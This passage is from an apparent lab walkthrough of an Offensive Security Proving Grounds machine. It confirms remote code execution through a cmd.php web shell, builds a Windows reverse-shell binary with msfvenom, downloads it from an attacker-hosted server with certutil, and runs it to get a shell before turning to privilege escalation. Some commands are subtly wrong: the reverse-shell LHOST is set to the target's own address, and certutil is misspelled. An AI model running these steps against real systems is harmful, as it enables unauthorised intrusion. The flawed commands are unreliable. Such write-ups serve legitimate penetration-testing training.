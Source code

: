 - As port 45332 was identified by the previous NMAP scan findings as an HTTP Apache server, we try to access "192.168.224.127:45332/cmd.php?cmd=whoami" and verify RCE.

![](Images/Pasted%20image%2020221020192543.png)

- We enter the following command on our Kali machine to create a reverse shell binary.

msfvenom -p windows/x64/shell_reverse_tcp -f exe -o rev.exe LHOST=192.168.224.127 LPORT=139

- On our Kali machine, we launch an HTTP server to host the reverse shell binary.
  
- To download the reverse shell binary to the target machine, we use the following command in the web shell,

http://192.168.224.127:45332/cmd.php?cmd=certutl -urlcache -split -f http://192.168.45.167/rev.exe

-  In order to run the reverse shell binary and get a shell back, we input the following command.

http://192.168.224.127:45332/cmd.php?cmd=rev.exe

![image](https://github.com/Bsal13/Offensive-Security-Proving-Grounds-Boxes/assets/90739944/93614b8e-deea-4c2b-9033-ee3d51a71e0d)

![image](https://github.com/Bsal13/Offensive-Security-Proving-Grounds-Boxes/assets/90739944/2e50beff-e702-4afd-8c2b-1d286b04f1ec)


---

# Privilege Escalation
## Local Enumeration

#### - Per the previous enumeration we know BarracudaDrive has a local privilege escalation

#### - Navigated to the privilege escalation exploit found previously:
